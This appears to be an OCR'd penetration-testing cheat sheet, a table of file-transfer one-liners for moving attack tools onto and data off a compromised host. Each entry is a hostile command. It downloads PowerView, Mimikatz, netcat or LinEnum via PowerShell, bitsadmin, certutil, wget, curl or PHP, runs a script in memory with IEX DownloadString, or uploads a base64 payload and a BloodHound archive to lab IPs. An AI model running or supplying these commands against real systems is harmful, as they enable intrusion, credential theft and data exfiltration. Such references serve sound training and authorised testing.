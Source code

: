 | **Command**                                                                                                        | **Description**                             |
| ------------------------------------------------------------------------------------------------------------------ | ------------------------------------------- |
|  `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`                                           | Download a file with PowerShell             |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`                              | Execute a file in memory using PowerShell   |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`                                            | Upload a file with PowerShell               |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`                                                   | Download a file using Bitsadmin             |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`                                                      | Download a file using Certutil              |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`                   | Download a file using Wget                  |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`                   | Download a file using cURL                  |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`          | Download a file using PHP                   |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`                                                 | Upload a file using SCP                     |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`                                                           | Download a file using SCP                   |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |